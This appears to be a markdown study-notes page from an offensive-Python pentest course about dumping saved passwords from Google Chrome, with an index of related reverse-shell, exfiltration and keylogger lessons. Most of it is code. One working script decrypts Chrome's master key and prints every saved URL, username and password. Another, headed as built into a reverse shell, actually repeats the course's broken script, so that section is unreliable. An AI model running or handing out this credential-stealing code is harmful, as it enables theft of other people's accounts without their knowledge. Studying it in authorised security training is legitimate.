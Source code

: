 ```yaml
---
title: Dumping saved passwords from Google Chrome
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - keylogger
---
```


# Dumping saved passwords from Google Chrome

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## How does Chrome saved passwords work?

Chrome uses windows session password to encrypt and decrypt saved passwords. Encrypted passwords are stored  in a SQlite  db called 'Login Data DB' located at:

```
C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default
```

Chrome calls to the windows API function called "CryptProtectData", which uses the windows login password as an encryption key and in reverse operation a windows API function called "CryptUnprotectData" to decrypt the password value back to clear text.

**1.** Install sqlite from: https://sqlitebrowser.org/dl/

**2.** Open DB Browser sqlite.

**3.** In your windows explorer, go to the path where sqlite db is stored and  copy the file "Login Data" to your Desktop.

**4.** Change the extension of "Login Data" file to .sqlite3

**5.** Open "Login Data.sqlite3" in DB Browser sqlite.

**6.** Go to tab "Browse Data" (Hoja de Datos in spanish) and select the table login. There you have all stored passwords.


## Our script

The route map for this script will be:

**1.** Guessing the path to sqlite database: username and browser used by the victim.

```
C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default
```

**2.** Sending the password value from a column in "logins" table, in "Login Data.sqlite3" to function CryptUn ProtectData.

**3.** Send the passwords through a reverse shell.

### Script for gathering passwords

Here is the script provided in the course (it doesn't work, below I've pasted a different one that works):

```python
# Python For Offensive PenTest: A Complete Practical Course  - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


from os import getenv 
# To find out the Chrome SQL path- C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Login Data

import sqlite3 # To read the Chrome SQLite DB

import win32crypt  # High level library to call windows API CryptUnprotectData

from shutil import copyfile # To make a copy of the Chrome SQLite DB


# LOCALAPPDATA is a Windows Environment Variable which points to >>> C:\Users\{username}\AppData\Local
path = getenv("LOCALAPPDATA")+r"\Google\Chrome\User Data\Default\Login Data"

# make a copy the Login Data DB and pull data out of the copied DB, so there are no conflicts in case that the user is using the original (maybe she is logged into facebook, let's say)
path2 = getenv("LOCALAPPDATA")+r"\Google\Chrome\User Data\Default\Login2"
copyfile(path, path2)

# Connect to the copied Database
conn = sqlite3.connect(path2)


cursor = conn.cursor() #Create a Cursor object and call its execute() method to perform SQL commands like SELECT

# SELECT column_name,column_name FROM table_name
# SELECT action_url and username_value and password_value FROM table logins
cursor.execute('SELECT action_url, username_value, password_value FROM logins')


# To retrieve data after executing a SELECT statement, we call fetchall() to get a list of the matching rows.
for raw in cursor.fetchall():

    print(raw[0] + '\n' + raw[1]) # print the action_url (raw[0]) and print the username_value (raw[1])

    password = win32crypt.CryptUnprotectData(raw[2])[1] # pass the encrypted Password to CryptUnprotectData API function to decrypt it  

    print(password)
conn.close()


```


Script that works. These are requirements:

```
pip install PyCryptodome
```


Script:

```python
import os
import json
import base64
import sqlite3
import win32crypt
from Crypto.Cipher import AES
import shutil

def get_master_key():
    with open(os.environ['USERPROFILE'] + os.sep + r'AppData\Local\Google\Chrome\User Data\Local State', "r") as f:
        local_state = f.read()
        local_state = json.loads(local_state)
    master_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    master_key = master_key[5:]  # removing DPAPI
    master_key = win32crypt.CryptUnprotectData(master_key, None, None, None, 0)[1]
    return master_key

def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)

def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)

def decrypt_password(buff, master_key):
    try:
        iv = buff[3:15]
        payload = buff[15:]
        cipher = generate_cipher(master_key, iv)
        decrypted_pass = decrypt_payload(cipher, payload)
        decrypted_pass = decrypted_pass[:-16].decode()  # remove suffix bytes
        return decrypted_pass
    except Exception as e:
        # print("Probably saved password from Chrome version older than v80\n")
        # print(str(e))
        return "Chrome < 80"
 

master_key = get_master_key()
login_db = os.environ['USERPROFILE'] + os.sep + r'AppData\Local\Google\Chrome\User Data\default\Login Data'
shutil.copy2(login_db, "Loginvault.db") #making a temp copy since Login Data DB is locked while Chrome is running
conn = sqlite3.connect("Loginvault.db")
cursor = conn.cursor()
try:
    cursor.execute("SELECT action_url, username_value, password_value FROM logins")
    for r in cursor.fetchall():
        url = r[0]
        username = r[1]
        encrypted_password = r[2]
        decrypted_password = decrypt_password(encrypted_password, master_key)
        if len(username) > 0:
            print("URL: " + url + "\nUser Name: " + username + "\nPassword: " + decrypted_password + "\n" + "*" * 50 + "\n")
except Exception as e:
    pass
cursor.close()
conn.close()
try:
    os.remove("Loginvault.db")
except Exception as e:
    pass
```


### Script with gathering passwords phase integrated in a reverse shell


```python
# Python For Offensive PenTest: A Complete Practical Course  - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import json
import base64
from os import getenv 
# To find out the Chrome SQL path- C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Login Data

import sqlite3 # To read the Chrome SQLite DB
from Crypto.Cipher import AES
import win32crypt  # High level library to call windows API CryptUnprotectData

from shutil import copyfile # To make a copy of the Chrome SQLite DB


# LOCALAPPDATA is a Windows Environment Variable which points to >>> C:\Users\{username}\AppData\Local
path = getenv("LOCALAPPDATA")+r"\Google\Chrome\User Data\Default\Login Data"

# make a copy the Login Data DB and pull data out of the copied DB
path2 = getenv("LOCALAPPDATA")+r"\Google\Chrome\User Data\Default\Login2"
copyfile(path, path2)

# Connect to the copied Database
conn = sqlite3.connect(path2)


cursor = conn.cursor() #Create a Cursor object and call its execute() method to perform SQL commands like SELECT

# SELECT column_name,column_name FROM table_name
# SELECT action_url and username_value and password_value FROM table logins
cursor.execute('SELECT action_url, username_value, password_value FROM logins')


# To retrieve data after executing a SELECT statement, we call fetchall() to get a list of the matching rows.
for raw in cursor.fetchall():

    print(raw[0] + '\n' + raw[1]) # print the action_url (raw[0]) and print the username_value (raw[1])

    password = win32crypt.CryptUnprotectData(raw[2])[1] # pass the encrypted Password to CryptUnprotectData API function to decrypt it  

    print(password)
conn.close()
```
